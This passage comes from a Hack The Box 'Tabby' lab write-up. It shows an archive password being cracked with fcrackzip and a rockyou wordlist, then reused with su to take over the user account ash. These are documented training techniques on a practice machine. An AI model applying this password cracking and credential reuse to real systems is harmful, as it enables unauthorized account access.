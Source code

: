 
let's open it 
```shell
ezi0x00@kali:~/HTB/Tabby$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password:
```
When I see every step a password is required
![website](/assets/img/Posts/cursed.jpg)

let's crack it with `fcrackzip`
```shell
ezi0x00@kali:~/HTB/Tabby$ fcrackzip -D -p /home/ezi0x00/rockyou.txt 16162020_backup.zip 
possible pw found: admin@it ()
```
we get the password as `admin@it`
```shell
ezi0x00@kali:~/HTB/Tabby$ unzip 16162020_backup.zip
Archive:  16162020_backup.zip
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt 
 ``` 
If you searched in the files that you have decompressed, you will not find anything. 
The whole idea is that you got a password. That password will log into the user on the machine. called ash 
```shell
tomcat@tabby:/home$ ls
ls
ash
```
let's login with the `ash` username and password is `admin@it`.
```shell
tomcat@tabby:/home$ su ash
su ash
Password: admin@it

ash@tabby:/home$ id
id
```